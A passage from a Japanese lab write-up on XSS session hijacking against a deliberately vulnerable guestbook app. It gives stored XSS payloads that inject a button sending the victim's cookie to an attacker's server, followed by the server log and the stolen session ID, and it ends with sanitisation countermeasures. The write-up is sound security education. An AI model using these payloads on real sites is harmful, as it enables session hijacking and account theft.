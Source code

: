 ```html
<script>i.style.marginLeft="5px"</script>
<script>f=function(){location.href=u}</script>
<script>i.onclick=f</script>
<script>s="input[name='btnClear']"</script>
<script>b=d.querySelector(s)</script>
<script>p=b.parentNode</script>
<script>p.insertBefore(i,b.nextSibling)</script>
```

何ということでしょう、`Clear Guestbook`の右側に<font color="red">helpボタン</font>が追加されてしまいました。

![スクリーンショット 2025-06-04 8.04.31.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2620245/b49e25b5-b9bd-407a-96a7-3a89080a28e2.png)

そして、このhelpボタンを押すと。。。

![スクリーンショット 2025-06-04 8.10.09.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2620245/da1e538a-75d1-440d-a56b-78b2f2f050d0.png)

cookieの情報付きで攻撃者のサイトにアクセスしてしまいました。で、以下のようにログからcookieの情報を抜き取れました。

```nginx
192.168.215.1 - - [03/Jun/2025:22:27:18 +0000] "GET /?k=security%3Dlow%3B%20PHPSESSID%3D55b51fbf98bb628a8a533b4269cc154a HTTP/1.1" 200 615 "http://127.0.0.1:4280/" "Mozilla/5.0 (Linux; Android 6.0; Nexus 5 Build/MRA58N) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Mobile Safari/537.36" "-"
```
```
security=low
PHPSESSID=55b51fbf98bb628a8a533b4269cc154a
```

# 対策

一般的なXSSの対策として、サニタイジングがあります。サニタイジングはスクリプトの無害化のことで、入力内容をチェックして有害な文字をエスケープしたり、サーバ側で排除するというような対処のことです。
また、入力値の制御なども有効な手段ではあります。今回実施した内容で、文字数制限によりスクリプトを分割する必要がありましたが、そのような文字数制限があることで複雑なスクリプトを抑制できることがあります。

# まとめ

今回、実際に3種類のXSSでセッションハイジャックをやってみました。脆弱性のあるアプリケーションでは、いかに簡単に悪意のあるスクリプトを埋め込めるかわかりました。
IPAの`ソフトウェア等の脆弱性関連情報に関する届出状況[2025年第1四半期（1月～3月）]`によると、今までの累計ではXSSだけで57%を占めており、かなり多く報告されている脆弱性だとわかります。
この記事で紹介したような方法で実際にXSSを試すことができるので、脆弱性を作り込まないためにも一度実際にやってみてください。

https://www.ipa.go.jp/security/reports/vuln/software/2025q1.html
